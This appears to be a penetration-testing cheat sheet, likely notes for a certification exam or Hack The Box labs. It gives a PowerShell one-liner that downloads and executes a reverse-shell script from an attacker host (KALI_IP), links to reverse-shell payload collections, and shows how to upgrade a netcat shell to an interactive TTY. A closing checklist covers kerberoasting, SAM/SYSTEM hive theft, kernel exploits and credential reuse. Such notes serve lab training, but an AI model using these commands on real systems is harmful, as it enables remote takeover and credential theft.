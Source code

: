 
### Decode base64 string in windows (sometime may need it due to special character)
```powershell
$base64String = 'BASE64_STRING'
$bytes = [System.Convert]::FromBase64String($base64String)
$text = [System.Text.Encoding]::UTF8.GetString($bytes)
Write-Output $text
```

### Check if current powershell session is a 64 bit process or not in windows
```powershell
[system.environment]::Is64BitProcess
```
If it is not, invoke 64 bit reverse powershell call
```
C:\Windows\sysNative\windows\powershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')
```

### Useful Reverse shell payload 
[Windows Powershell](https://github.com/samratashok/nishang/tree/master/Shells)

[Linux](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### Upgrade simple shell to tty shell to fully interactive shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
USER@ubuntu:~$ ^Z                    //<- Press Ctrl +Z           
zsh: suspended  nc -lvp 13337
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvp 13337
                               reset
reset: unknown terminal type unknown
Terminal type? screen
USER@ubuntu:~$ export TERM=xterm
```
For windows, use this [tool](https://github.com/antonioCoco/ConPtyShell)

### When you feel stuck
* Do not rely on autorecon only
* modify the explot script directory path/uri
* List user directories recursively
* check hashes, password reuse
* Try rdp,ssh,winrm with owned creds
* try asrep kerberoast
* Fuzz the found subdirectories with a wordlist and fuzzer
* Check C:\windows\system32\config for SAM and SYSTEM if theres a old version of C:\
* Go for kernel exploit
* Try local auth as admin
* try pivoting/look for internal running application
* Try find vhost
* search about that specific service/service in google but add the keyword "hack the box"
* If a con pty shell does not work for you, try a simple shell/tty shell
* If you need extra tools (like a specific compiler/file viewer), usually it will be either in your Kali or the exam machine.
    Try to look for online solution if you can't find any.
